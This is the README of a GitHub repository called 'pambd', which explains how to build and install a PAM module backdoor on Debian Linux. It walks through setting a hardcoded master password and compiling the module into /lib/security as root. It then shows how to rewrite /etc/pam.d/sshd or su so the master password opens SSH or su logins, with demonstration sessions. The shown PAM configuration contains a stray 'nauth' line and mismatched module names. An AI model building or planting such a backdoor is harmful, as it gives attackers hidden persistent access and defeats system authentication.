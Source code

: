 pambd
=====

Introduction
------------

Note: the software in this repository is targeted at x86_64 Debian Linux
running a normal Linux kernel. As a result, some paths and configurations
will be different on other distributions of Linux. Adjust the gen.sh bash
script appropriately.

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

```bash
pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory
```

First install the package **libpam-dev** that contains the needed headers file for compilation:

```bash
deftcode pambd $ sudo apt-get install libpam0g-dev
```

Now edit the **pambd.c** and set your master custom password:

```c
#define MYPASSWD "my_master_passwd"
```

After that, generate the pam backdoor with:
(It needs the root permissions)

```bash
deftcode pambd $ sudo sh gen.sh
```

This will generate the pam backdoor at **/lib/security/pambd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

```bash
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so     # This must be 'sufficient'.
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pam_bd.so        # This is our pam backdoor.
account         sufficient      pam_bd.so        # --
```


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

```bash
deftcode pambd $ file /lib/security/pambd.so 
/lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

Example with the **SSH** service:

```bash
deftcode pambd $ ssh eurialo@deftcode.local
eurialo@deftcode.local password: 

# eg. enter: my_master_passwd or real_user_password

Last login: Thu May 21 05:55:13 2015 from localhost
deftcode ~ $ 
```

Example with **su**:

```bash
deftcode pambd $ su -
Password: 

# eg. enter: my_master_passwd or real_user_password

deftcode ~ # 
```
